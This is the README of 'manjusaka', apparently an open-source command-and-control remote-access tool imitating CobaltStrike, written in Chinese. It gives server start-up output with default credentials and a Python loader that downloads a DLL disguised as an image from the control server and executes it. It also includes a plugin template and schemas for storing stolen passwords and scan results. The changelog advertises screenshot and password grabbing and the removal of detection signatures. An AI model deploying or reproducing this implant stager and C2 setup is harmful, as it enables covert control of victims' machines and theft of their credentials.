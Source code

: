 
# 免责声明 
本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

此工具仅限于安全研究和教学，用户承担因使用此工具而导致的所有法律和相关责任！ 作者不承担任何法律和相关责任！

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。



# manjusaka
牛屎花  一款基于WEB界面的仿CobaltStrike C2远控 

##系统架构： ![](https://github.com/YDHCUI/manjusaka/blob/main/images/0.jpg)

## 使用方法
```bash
[root@devops nps]# ./manjusaka
[NPS] 2022/09/14 15:57:21 初始用户: manjusaka  密码: ZbFCa2L2LRd5
[NPS] 2022/09/14 15:57:21 创建项目: 公共项目 没有归属的npc放在这个项目里面
[NPS] 2022/09/14 15:57:21 监听项目路由: VHOS5vqN
[NPS] 2022/09/14 15:57:21 NPS监听地址 :3200
[NPS] 2022/09/14 15:57:21 NPU后台地址 : manjusaka
[NPS] 2022/09/14 15:57:21 NPC监听地址 :801
[NPS] 2022/09/14 15:57:21 NPC交互路由 : /:target/favicon.ico
[NPS] 2022/09/14 15:57:21 NPC下载路由 : /:target/assert/:sys/bg.jpg
[NPS] 2022/09/14 15:57:21 NPC文件路由 : /images/:fid/logo.png
```
则NPS访问地址为  http://192.168.93.217:3200/manjusaka 


1、创建项目，默认有一个公共项目，选择当前项目后 可在回传结果里面查看当前项目回传的信息

![](https://github.com/YDHCUI/manjusaka/blob/main/images/1.png)


2、根据项目 生成npc 可以直接使用exe或elf格式的npc。也可以使用其它语言加载npc母体 比如使用python加载npc
 
```python
import requests
from ctypes import cdll

res = requests.get("http://192.168.93.217:801/bq1iFEP2/assert/dll/bg.jpg")
with open("a.dll","wb") as f:
    f.write(res.content)

dll = cdll.LoadLibrary("a.dll")
dll.main()

```


![](https://github.com/YDHCUI/manjusaka/blob/main/images/2.png)

3、npc上线，点选中该npc即可对其进行操作

![](https://github.com/YDHCUI/manjusaka/blob/main/images/3.png)

![](https://github.com/YDHCUI/manjusaka/blob/main/images/4.png)

![](https://github.com/YDHCUI/manjusaka/blob/main/images/5.png)

![](https://github.com/YDHCUI/manjusaka/blob/main/images/6.png)

![](https://github.com/YDHCUI/manjusaka/blob/main/images/7.png)

![](https://github.com/YDHCUI/manjusaka/blob/main/images/8.png)


4、插件系统 生成dll/so插件, 以plug_name_nps.dll格式命名放到plugins文件夹下面 即可动态调用
插件开发示例, main传入插件运行参数 传出返回的内容值 
```rust
/* 
//./Cargo.toml
[lib]
path = "src/lib.rs"
crate-type = ["cdylib"]
*/

//src/lib.rs

use std::ffi::CStr;
use std::ffi::CString;
use std::os::raw::c_char;

#[no_mangle]
pub unsafe extern "C" fn main(args: *const c_char) -> *const c_char { 
    let r_str = CStr::from_ptr(args).to_str().unwrap();

    println!("plugin load args: {}", r_str);
    let c_str = format!("plugin return {}",r_str);

    CString::new(c_str).expect("CString failed").into_raw()
}

```
返回值匹配到如下protobuf格式后后将结果写入数据库

```protobuf
syntax = "proto3";

message PassResult{
    string username = 1;
    string password = 2;
    string passtype = 3;
    string passfrom = 4;
}

message PassScan{
    string hosts = 1;
    string ports = 2;
    string args = 3;
    repeated PortResult result = 4;
}

message PortResult{
    string host = 1;
    string port = 2;
    string proto = 3;
    string version = 4;
}
message PortScan{
    string hosts = 1;
    string ports = 2;
    string args = 3;
    repeated PortResult result = 4;
}
message HttpResult{
    string proto = 1;
    string host = 2;
    string port = 3;
    string title = 4;
    string note = 5;
}
message HttpScan{
    string hosts = 1;
    string ports = 2;
    string args = 3;
    repeated PortResult result = 4;
}

```

 
## 更新

### v0.5
1、修复安全漏洞

2、开放NPC配置修改功能

3、上传文件流程优化

4、增加动态插件功能，可拓展更多功能 

5、去除特征、修复bug 


### v0.4
1、随机key 

2、去除特征、修复bug 

### v0.3
1、实现截屏、密码获取功能。(仅window) 

2、修复cmd界面不能黏贴的bug。 

3、修复项目不能暂停的bug。 

4、自动创建data文件夹。 


### v0.2
1、修改网络协议使流量加密。

2、加入本地文件上传下载功能。

3、修复shell界面位移bug。

### v0.1
1、实现基础远控功能。


## 交流
https://discord.gg/YMqeN5Qyk4

